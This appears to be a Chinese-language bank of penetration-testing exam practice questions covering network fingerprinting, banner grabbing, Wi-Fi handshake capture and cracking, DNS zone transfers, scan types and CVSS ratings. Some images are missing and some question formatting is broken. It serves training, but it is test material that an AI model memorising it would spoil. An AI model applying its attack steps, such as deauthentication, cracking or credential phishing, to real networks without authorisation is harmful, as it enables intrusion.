4. 该设备控制器的品牌和型号

### 41. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举并指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？
1. 它是一台 Linux 工作站。
2. 它是一台 Linux 服务器。
3. 它是一台移动设备。
4. 它是一台运行嵌入式 Linux 版本的路由器。

### 42. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举并指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？
1. 它使用 NTLM 协议进行文件共享。
2. 它缺少来自 Microsoft 的最新更新。
3. 它是域控制器。
4. 它是文件服务器。

### 43. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举并指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？
1. 它在其中一个硬盘上定义了共享。
2. 它是全局编录服务器。
3. 它已安装 Hyper-V Hypervisor 角色。
4. 它已与其他域联合。
5. 以上均不是。

### 44. 你正在使用 `Telnet` 客户端连接到 Web 服务器，试图识别其上运行的 Web 服务器软件的类型和版本。这项过程被称为什么？
1. 横幅抓取
2. 扫描
3. 利用
4. 破解

### 45. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举然后指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？（选择两项。）
1. 它是一台路由器。
2. 它是一台网络打印机。
3. 它是一台 DNS 服务器。
4. 它正在运行 Web 服务器。
5. 它已加入 Active Directory 域。

### 46. 你正在执行灰盒渗透测试。你想在 Linux 笔记本上使用 `Telnet` 客户端抓取目标网络上 Web 服务器的横幅。目标 Web 服务器的 IP 地址为 10.0.0.1。你在 shell 提示符下会使用哪个命令来执行此操作？
1. `telnet 10.0.0.1:80`
2. `telnet 10.0.0.1:403`
3. `telnet 10.0.0.1 80`
4. `telnet 10.0.0.1 403`

### 47. 你正在执行灰盒渗透测试。你使用 Linux 笔记本上的 `Telnet` 客户端抓取目标网络上 Web 服务器的横幅。结果显示如下：

从这些信息中你能了解到有关 Web 服务器的什么情况？（选择两项。）
1. Web 服务器运行在 Linux 之上。
2. Web 服务器运行在 Windows Server 操作系统之上。
3. 它运行的是 Apache。
4. 它运行的是 IIS。
5. 该设备很可能是一个安全设备。

### 48. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举然后指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？
1. 它很可能是一台 Windows Server 机器。
2. 它很可能是一台 Windows 工作站。
3. 它很可能是一台 Windows 域控制器。
4. 它很可能是一台 iPhone 移动设备。

### 49. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举然后指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？
1. 它很可能是一台 Cisco 路由器。
2. 它很可能是一台 Linux 工作站。
3. 它很可能是一台 Windows 域控制器。
4. 它很可能是一台 Android 移动设备。

### 50. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举然后指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？（选择两项。）
1. 它很可能是一台 Cisco 路由器。
2. 它很可能是一台 Linux 工作站。
3. 它正在运行 DNS 服务器。
4. 它正在运行 Web 服务器。
5. 它很可能是一台 Windows Server 机器。

### 51. 作为灰盒渗透测试期间信息收集过程的一部分，你需要在目标组织的内部 Web 服务器上执行证书检查。你可以在 Kali Linux 笔记本上使用哪个工具来执行此操作？
1. `sslyze`
2. `Zenmap`
3. `nmap`
4. `hping`

### 52. 在灰盒渗透测试期间，你已在 Kali Linux 笔记本上使用一个工具检查目标组织内部 Web 服务器使用的证书。输出显示如下：

你能从此输出中了解到什么？（选择两项。）
1. Web 服务器支持 SSLv2。
2. Web 服务器支持 TLSv1_1。


# 渗透测试问题

## 3.
`TLSv1_2` 由 Web 服务器支持。

## 4.
`TLSv1` 由 Web 服务器支持。

## 5.
`SSLv3` 由 Web 服务器支持。

## 53.
在灰盒渗透测试的信息收集阶段，你需要在有线网络上捕获数据包。你可以在笔记本电脑上使用哪些工具来实现此目的？（选择两个。）
1. `tcpdump`
2. `nmap`
3. `Wireshark`
4. `Zenmap`
5. `aircrack-ng`

## 54.
在黑盒渗透测试的信息收集阶段，你需要窃听来自目标设施的无线电频率发射并尝试捕获其无线网络的数据。在此之前，你必须破解 Wi-Fi 网络使用的加密。你停在组织的停车场。你的 Linux 笔记本电脑上可以使用哪种工具来做到这一点？
1. `aircrack-ng`
2. `tcpdump`
3. `Wireshark`
4. `nmap`

## 55.
在黑盒渗透测试的信息收集阶段，你需要窃听来自目标设施的无线电频率发射并尝试捕获其无线网络的数据。你停在组织的停车场。你的笔记本电脑中的无线网络接口必须如何配置才能做到这一点？
1. 设置为监控模式。
2. 设置为混杂模式。
3. 设置为捕获模式。
4. 设置为 IEEE 802.1x 模式。

## 56.
在黑盒渗透测试的信息收集阶段，你需要窃听来自目标设施的无线电频率发射并尝试捕获其无线网络的数据。你停在组织的停车场。你想使用 `aircrack-ng` 来破解 Wi-Fi 网络使用的加密。要实现此目的，你首先需要捕获认证握手。你应该在笔记本电脑上运行哪种工具来做到这一点？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

## 57.
在黑盒渗透测试的信息收集阶段，你需要窃听来自目标设施的无线电频率发射并尝试捕获其无线网络的数据。你已经捕获了认证握手。接下来你需要使无线客户端去认证，以便开始捕获数据。你应该在笔记本电脑上运行哪种工具来做到这一点？
1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

## 58.
作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。有线网络接口在你的笔记本电脑中必须如何配置才能实现此目的？
1. 设置为监控模式。
2. 设置为混杂模式。
3. 设置为捕获模式。
4. 设置为 IEEE 802.1x 模式。

## 59.
作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你已将笔记本电脑中的网络接口配置为接受网络介质上传输的所有帧，并且已安装了 `Wireshark`。然而，当你运行 `Wireshark` 时，你只看到专门发往你笔记本电脑的帧。为什么会发生这种情况？
1. 你笔记本电脑上的基于主机的防火墙正在阻止所有其他帧。
2. 交换机上已启用 MAC 地址过滤。
3. 网络使用集线器。
4. 网络使用交换机。

## 60.
作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你已将笔记本电脑中的网络接口配置为接受网络介质上传输的所有帧，并且已安装了 `Wireshark`。然而，当你运行 `Wireshark` 时，你只看到专门发往你笔记本电脑的帧。你如何修复这个问题？
1. 禁用你笔记本电脑上的基于主机的防火墙。
2. 禁用交换机上的 MAC 地址过滤。
3. 用集线器替换网络交换机。
4. 将你的笔记本电脑连接到交换机上的镜像端口。

## 61.
你正在为客户执行灰盒渗透测试。目标组织中的员工使用一个内部开发的应用程序来完成日常工作。它经常崩溃，你怀疑它基于编写不佳或过时的代码。你想分析应用程序的源代码，以查看是否包含可被利用的弱点。然而，测试的参与规则不允许访问代码。你应该怎么做？
1. 反编译应用程序的可执行文件。
2. 调试应用程序的可执行文件。
3. 捕获并分析员工使用应用程序时产生的网络流量。
4. 使用交换机上的服务质量 QoS 设置优先处理由应用程序产生的网络流量。

## 62.
你正在为客户执行灰盒渗透测试。你想针对组织员工每天使用的内部应用程序。为了识别代码中的弱点，你决定反编译应用程序的可执行文件。你有一些 C++ 编程经验，所以你觉得自己能够审查反编译过程中揭示的源代码。然而，反编译后，你发现自己不理解生成源代码文件的内容。为什么会发生这种情况？
1. 你需要将输出转换为 C++。
2. 反编译器通常生成汇编级代码。
3. 你在运行反编译器时忘记使用 `–C` 选项。
4. 应用程序编写得太差，反编译器无法重现源代码。

## 63.
你正在为客户执行灰盒渗透测试。目标组织中的员工使用一个内部开发的应用程序来完成日常工作。它经常崩溃，你怀疑它基于编写不佳或过时的代码。你想分析应用程序在典型终端用户运行时执行的状况，以查看是否包含可被利用的弱点。你应该怎么做？
1. 反编译应用程序的可执行文件。
2. 调试应用程序的可执行文件。
3. 捕获并分析员工使用应用程序时产生的网络流量。
4. 使用交换机上的服务质量 QoS 设置优先处理由应用程序产生的网络流量。

## 64.
哪个开源研究来源由美国政府维护，并提供当前报告的最频繁、高影响安全事件类型的动态汇总？
1. CERT
2. JPCERT
3. CVE
4. CAPEC

## 65.
哪个开源研究来源由日本政府维护，并提供当前安全警报和通告的动态汇总？
1. CERT
2. JPCERT
3. CWE
4. CAPEC

## 66.
哪个开源研究来源由美国政府的国家科学技术研究所维护，并提供当前安全情况的汇总？
1. CERT
2. Full Disclosure
3. CVE
4. NVD

## 67.
哪个开源研究来源是社区开发的通用数据库，供全球行业厂商提交与其产品相关的漏洞和暴露？
1. CERT
2. JPCERT
3. CVE
4. CAPEC

## 68.
哪个开源研究来源是社区开发的通用数据库，其中包含与软件总体相关的漏洞和暴露，而不是特定厂商的产品？
1. CERT
2. Full Disclosure
3. CWE
4. CAPEC

## 69.
哪个开源研究来源是社区开发的通用数据库，其中包含常用网络攻击模式的描述？
1. CERT
2. CWE
3. CVE
4. CAPEC

## 70.
哪个开源研究来源由生产 `nmap` 工具的组织发布？
1. CERT
2. Full Disclosure
3. CVE
4. NVD


# 渗透测试问题

### 71. 你正在进行灰盒渗透测试。在枚举和指纹识别过程中，你发现目标组织网络上的一个内部网站运行在非常旧版本的 IIS 上。你需要查看与此较旧 Web 服务器相关的是否存在可利用的漏洞。可以使用哪种开源研究来源？
1. CVE
2. Full Disclosure
3. NVD
4. 以上全部

### 72. 你听说 Adobe 刚刚发布了一个安全更新，解决了 Photoshop 中最近发现的漏洞。你可以使用哪种开源研究来源来了解有关该更新的更多信息以及它旨在修复哪些漏洞？
1. CERT
2. Full Disclosure
3. CAPEC
4. NVD

### 73. 你听说一种新的物理安全漏洞正在传播，攻击者使用一种特殊类型的钥匙，称为 *撞匙*。哪种开源研究来源最有可能包含有关此漏洞工作原理的信息？
1. CAPEC
2. Full Disclosure
3. NVD
4. CVE

### 74. 哪种开源研究来源按严重程度对安全漏洞进行排名？
1. CERT
2. Full Disclosure
3. CVE
4. NVD

### 75. 在灰盒渗透测试期间进行枚举和指纹识别时，你发现目标组织中的文档和培训部门将文件存储在仍处于 SP2 修补程序级别的 Windows Server 2003 系统上，因为没人费心去更新它。你想调查此旧服务器可被利用的方式。可以使用哪种开源研究来源？
1. CVE
2. CAPEC
3. CWE
4. 以上均非

### 76. 哪种类型的漏洞扫描最接近内部系统管理员对网络的视角？
1. Credentialed
2. Noncredentialed
3. Discovery
4. Stealth

### 77. 哪种类型的漏洞扫描最接近外部黑客对网络的视角？
1. Credentialed
2. Noncredentialed
3. Full
4. Compliance

### 78. 哪种类型的漏洞扫描通常可以识别出最多的漏洞？
1. Credentialed
2. Noncredentialed
3. Discovery
4. Stealth

### 79. 哪种类型的漏洞扫描通常识别出的漏洞最少？
1. Credentialed
2. Noncredentialed
3. Full
4. Compliance

### 80. ping 扫描是以下哪种类型的漏洞扫描的示例？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 81. 哪种类型的漏洞扫描对目标网络的侵入性最小？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 82. 哪种类型的漏洞扫描最有可能被入侵防御系统 (IPS) 或入侵检测系统 (IDS) 检测到？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 83. 哪种类型的漏洞扫描最不可能被入侵防御系统 (IPS) 或入侵检测系统 (IDS) 检测到？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 84. 哪种类型的漏洞扫描更可能由防御者而不是渗透测试人员使用？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 85. 哪种类型的漏洞扫描向网络主机发送 SYN 数据包以枚举它们？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 86. 你正在灰盒渗透测试期间执行漏洞扫描。扫描器操纵 TCP 三次握手以枚举网络主机。你正在执行哪种类型的扫描？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 87. 你正在灰盒渗透测试期间执行漏洞扫描。扫描器操纵 TCP 三次握手以枚举网络主机。首先，扫描器向目标主机发送 SYN 数据包。主机向扫描主机响应 SYN-ACK 数据包。接下来会发生什么？
1. 扫描主机用 ACK 数据包响应目标主机。
2. 目标主机向扫描主机发送 ACK 数据包。
3. 扫描主机向目标主机发送 ICMP Echo 请求数据包。
4. 扫描主机用 RST 数据包响应目标主机。

### 88. 你正在进行灰盒渗透测试。你正在使用隐蔽扫描对内部网络进行漏洞扫描。目标网络安装了 IDS 设备。可能发生什么情况？
1. IDS 将检测到隐蔽扫描。
2. 隐蔽扫描将不会被 IDS 检测到。
3. IDS 将阻止来自你的扫描系统的流量。
4. 隐蔽扫描将与目标网络上的每个主机建立完整的 TCP 连接。

### 89. 哪种类型的漏洞扫描产生最准确的结果？
1. Discovery
2. Full
3. Stealth
4. Uncredentialed

### 90. 客户聘请你执行 PCI-DSS 渗透测试。在此测试期间你可能会执行哪种类型的漏洞扫描？
1. Discovery
2. Full
3. Stealth
4. Compliance

### 91. 你正在作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能会在枚举过程中包含哪种信息？
1. 主机
2. 网络
3. 域
4. 以上全部

### 92. 你正在作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能会在枚举过程中包含哪种信息？
1. 用户账户
2. 组
3. 共享网络文件夹
4. 以上全部

### 93. 你正在作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能会在枚举过程中包含哪种信息？
1. 网页
2. 应用程序
3. 服务
4. 令牌
5. 以上全部

### 94. 你需要作为灰盒渗透测试的一部分执行漏洞扫描。参与规则规定内部系统管理员不得收到有关扫描何时发生的任何警告，你应避免被检测，并且你的扫描应尽可能收集尽可能多的信息。你应该怎么做？
1. 运行完整漏洞扫描。
2. 运行隐蔽扫描。
3. 限制扫描以使用最小带宽。
4. 以上均非。

### 95. 你需要作为灰盒渗透测试的一部分执行漏洞扫描。参与规则规定内部系统管理员不得收到有关扫描何时发生的任何警告，你应避免被检测，并且你的扫描应尽可能收集尽可能多的信息。你应该怎么做？
1. 运行合规性扫描。
2. 安排扫描在凌晨运行。
3. 运行无凭据扫描。
4. 以上均非。

### 96. 你正在为客户执行黑盒渗透测试。参与规则要求你执行凭据化漏洞扫描，但你没有获得管理员登录信息。你可以怎么做？
1. 取消测试。参与规则与测试类型不匹配。
2. 请客户发送管理员凭据以运行扫描。
3. 进行 spear phishing 攻击，诱骗内部用户泄露其凭据。
4. 跳过枚举和指纹识别过程。


# 漏洞扫描练习题

## 97. 你正在为客户执行黑盒渗透测试。参与规则要求你对组织众多面向公众的 Web 服务器执行漏洞扫描。你在测试范围内仅被分配了几个小时来执行扫描。你应该怎么做？
1. 跳过对 Web 服务器的扫描。
2. 对每一台 Web 服务器执行完整扫描。
3. 将漏洞扫描限制在 Web 服务器上常用的协议上。
4. 对 Web 服务器执行带凭据扫描。

## 98. 你正在为客户执行 PCI-DSS 合规性渗透测试。关于网络拓扑，在此测试期间应如何运行漏洞扫描？（选择两项。）
1. 从组织内部网络内部
2. 使用完整漏洞扫描
3. 从组织防火墙外部的位置
4. 使用隐蔽漏洞扫描
5. 仅查看前 20 个端口和协议

## 99. 使用 `nmap` 命令限制漏洞扫描查询的选项是哪个？
1. `-T*n*`
2. `-p`
3. `-F`
4. `-p-`

## 100. 你正在执行黑盒渗透测试。你需要从组织防火墙外部的外部网络位置使用 `nmap` 运行漏洞扫描。组织使用低带宽 T1 线路连接到 Internet。你应如何配置扫描？
1. 使用 `nmap` 命令的 `–T5` 选项。
2. 使用 `nmap` 命令的 `–T4` 选项。
3. 使用 `nmap` 命令的 `–T2` 选项。
4. 使用 `nmap` 命令的 `–T0` 选项。

## 101. 你正在执行灰盒渗透测试。你需要对脆弱的内部服务器系统运行漏洞扫描？应如何配置扫描？
1. 使用 `nmap` 命令的 `–T5` 选项。
2. 使用 `nmap` 命令的 `–T3` 选项。
3. 使用 `nmap` 命令的 `–T2` 选项。
4. 使用 `nmap` 命令的 `–T0` 选项。

## 102. 在对运行容器化网络应用的组织内执行漏洞扫描时，可能需要考虑的以下问题有哪些？（选择两项。）
1. 在容器环境中运行的应用可能无法被传统漏洞扫描检测到。
2. 容器主机可能会减慢漏洞扫描速度。
3. 扫描容器主机可能会导致其容器中运行的应用崩溃。
4. 扫描容器主机可能会导致其崩溃，使关键网络应用离线。
5. 与容器主机基础操作系统相关联的漏洞可能会被其容器继承。

## 103. 以下哪种应用扫描技术是通过审查应用的源代码来执行的？
1. 静态代码分析
2. 动态代码分析
3. 模糊测试
4. 以上都不是

## 104. 以下哪种应用扫描技术是在运行中的应用上执行的？（选择两项。）
1. 静态代码分析
2. 动态代码分析
3. 模糊测试
4. 源代码分析

## 105. 以下哪种应用扫描技术是通过向应用输入发送随机、意外或无效数据来查看其响应的？
1. 静态代码分析
2. 模糊测试
3. 源代码分析
4. 以上都不是

## 106. 以下哪项是非传统资产的示例？
1. 数据库服务器
2. 路由器
3. 支持网络的电视监视器
4. 内容过滤设备

## 107. 以下哪项是非传统资产的示例？
1. 电子邮件服务器
2. 计算机控制的制造设备
3. 无线接入点
4. 一体式台式机

## 108. 作为黑盒渗透测试信息收集阶段的一部分，你需要执行目标组织域的 DNS 区域传输。以下哪个命令可用于此操作？（选择两项。）
1. `dig axfr @*nameserver target_domain*`
2. `host -t axfr target_domain nameserver`
3. `nslookup –type=ns target_domain`
4. `nmap get-domain-transfer target_domain`

## 109. 你正在执行灰盒渗透测试。你想制作自定义数据包来测试服务器的响应方式并查看其返回的信息。可以使用哪种实用程序来执行此操作？
1. `hping`
2. `ping`
3. `nmap`
4. `Wireshark`

## 110. 你正在执行黑盒渗透测试。你已使用 `theHarvester` 枚举了目标组织中的大量用户电子邮件地址。你可以用此信息做什么？（选择两项。）
1. 进行钓鱼攻击。
2. 发送垃圾邮件。
3. 枚举内部用户账户。
4. 执行 DNS 区域传输。

## 111. 在灰盒渗透测试期间，你对网络上发现的系统运行 `nmap` 扫描。你发现 TCP 端口 139、443 和 3389 是开放的。系统上最可能运行的操作系统是什么？
1. iOS
2. Windows
3. Linux
4. Android

## 112. 你正在执行灰盒渗透测试。你对一台主机运行漏洞扫描，发现 TCP 端口 8080 和 8443 是开放的。从这些信息中你能推断出该主机的什么情况？
1. 它可能是一台 DNS 服务器。
2. 它可能是一台域控制器。
3. 它可能是一台文件服务器。
4. 它可能是一台 Web 服务器。

## 113. Kimberly 正在运行灰盒渗透测试。目标网络使用 10-net IP 地址方案，子网掩码为 8 位（10.0.0.0/8）。她需要在网络上的每台主机上运行漏洞扫描。她在连接到正在扫描的同一网段的笔记本电脑上加载 `nmap`，使用 `–T0` 选项。她在此场景中做错了什么？
1. `nmap` 实用程序不适用于私有 IP 地址方案。
2. `nmap` 实用程序应从未连接到正在扫描的同一网段的主机上运行。
3. `–T0` 选项将导致在如此大的子网上扫描花费异常长的时间。
4. 使用台式机而不是笔记本电脑可以提高扫描速度。

## 114. Jessica 正在运行黑盒渗透测试。她需要找出目标组织的域名注册商是谁。她还想了解组织的地址和电话号码。她应该使用哪种实用程序？
1. `whois`
2. `theHarvester`
3. `dig`
4. `nslookup`

## 115. Brittany 正在运行黑盒渗透测试。她想对目标组织的内部网络运行漏洞扫描。她应该怎么做？
1. 请求目标组织允许她到现场运行扫描。
2. 请求目标组织授予她访问内部网络的 VPN 访问权限。
3. 尝试入侵内部主机并将其用作跳板。
4. 在外部运行扫描。

## 116. Natasha 正在运行灰盒渗透测试。她最初使用 `ping` 扫描枚举了网络，并发现了内部 Web 服务器、域控制器、路由器以及生产车间使用的多个 SCADA 设备。以下哪些设备可能因更强烈的漏洞扫描而受到干扰？（选择两项。）
1. Web 服务器
2. 域控制器
3. 路由器
4. SCADA 设备

## 117. Joshua 正在运行灰盒渗透测试。以下哪一项最不可能影响他在测试期间可以运行漏洞扫描的时间？
1. 内部 IT 人员的可用性
2. 法规要求
3. 硬件限制
4. 组织网络上的高峰流量时间


# 渗透测试问题

## 118. Austin 正在进行白盒渗透测试。目标组织严重依赖一个由内部程序员开发的应用程序。测试范围规定他将被授予该应用程序源代码的访问权限。Austin 有丰富的编程背景，因此他逐行分析代码以寻找漏洞。在此场景中正在进行哪种应用程序分析？
1. 模糊测试
2. 静态代码分析
3. 动态代码分析
4. 启发式代码分析

## 119. Tyson 正在进行灰盒渗透测试。目标组织严重依赖一个由内部程序员开发的应用程序。他运行应用程序然后使用一个工具向应用程序的输入发送随机、意外的数据并分析其响应。在此场景中正在进行哪种应用程序分析？
1. 模糊测试
2. 静态代码分析
3. 启发式代码分析
4. 变异分析

## 120. Jessica 正在进行白盒渗透测试。她需要在目标组织的客户数据库服务器上运行侵入性漏洞扫描。她应该怎么做？
1. 在业务高峰期在生产系统上运行扫描。
2. 在典型工作日的上午 9 点左右运行扫描。
3. 先在实验室环境中运行测试扫描。
4. 跳过对该系统的扫描。

## 121. 在进行黑盒渗透测试时，你注意到目标组织有一个面向公众的服务器，其 SSL/TLS 安全证书已过期。你能从这一事实推断出什么？
1. 服务器的通信可以被解密。
2. 服务器已经被攻击者入侵。
3. 内部系统管理员没有关注该服务器。
4. 服务器上存储的数据可以被解密。

## 122. 你正在进行灰盒渗透测试。你刚刚完成了对目标网络上所有主机的全面漏洞扫描。现在你需要对扫描过的所有设备进行分类。以下哪一种是进行资产分类的有效方式？
1. 按操作系统
2. 按资产价值
3. 按发现的漏洞数量
4. 按漏洞严重程度
5. 以上全部

## 123. 你正在进行黑盒渗透测试。你正在裁定漏洞扫描的结果。经进一步检查，你发现扫描器在目标组织的 Web 服务器上识别出的最严重漏洞之一实际上并不存在。以下哪一项可以解释发生了什么？
1. 扫描器生成了误报。
2. 互联网上的某个攻击者检测到你的扫描并隐藏了漏洞。
3. 内部管理员检测到你的扫描并修复了漏洞。
4. 服务器感染了恶意软件并导致扫描结果异常。

## 124. 你正在进行灰盒渗透测试，刚刚完成了漏洞扫描、结果分类和数据裁定。现在你需要在进入测试的下一阶段之前对漏洞进行优先级排序。以下哪些漏洞可能构成最高优先级的利用目标？（选择两项。）
1. 域控制器运行在较旧版本的 Windows Server 上，并且缺少多个关键安全更新。
2. 用户的桌面系统缺少 Windows 功能更新。
3. 用户的桌面系统运行的是较早版本的 Ubuntu Linux。
4. 数据库服务器容易受到 WannaCry 漏洞的攻击。

## 125. 你正在对漏洞扫描中发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统（CVSS）评分为 3.8。该漏洞属于哪个风险类别？
1. 低
2. 中
3. 高
4. 严重

## 126. 你正在对漏洞扫描中发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统（CVSS）评分为 10。该漏洞属于哪个风险类别？
1. 低
2. 中
3. 高
4. 严重

## 127. 你正在对漏洞扫描中发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统（CVSS）评分为 5.3。该漏洞属于哪个风险类别？
1. 低
2. 中
3. 高
4. 严重

## 128. 你正在对漏洞扫描中发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统（CVSS）评分为 7.2。该漏洞属于哪个风险类别？
1. 低
2. 中
3. 高
4. 严重

## 129. 你正在评估漏洞扫描的结果并注意到一个共同主题。你发现目标组织几乎所有的 Windows Server 2012 R2 系统都缺少相同的关键安全更新。你应该怎么做？（选择两项。）
1. 立即停止渗透测试并通知客户。
2. 调查这是否会产生你可利用的漏洞。
3. 在最终的渗透测试报告中记录缺少更新的共同主题。
4. 在服务器上安装缺少的更新。
5. 在你的渗透测试最佳实践博客上记录缺少的更新。

## 130. 你正在评估漏洞扫描的结果并做出观察。你发现组织部署了许多仍运行在 2008 年发布的发行版上的 Linux 服务器。你应该怎么做？
1. 将旧 Linux 服务器中存在的漏洞映射到可能的利用方式。
2. 立即停止渗透测试并通知客户。
3. 通过电子邮件建议客户升级服务器。
4. 为客户升级服务器。

## 131. 你正在评估漏洞扫描的结果并注意到许多网络设备，例如路由器和接入点，仍使用默认的管理员用户名和密码。这些信息可以很容易地在互联网上找到，并代表一个重大的安全漏洞。你应该怎么做？（选择两项。）
1. 建议客户采用更改所有默认用户名和密码的最佳实践。
2. 利用使用默认用户名和密码的设备。
3. 手动为客户更改默认用户名和密码。
4. 在流行的在线网络安全论坛上发布客户仍在使用默认用户名和密码的事实。

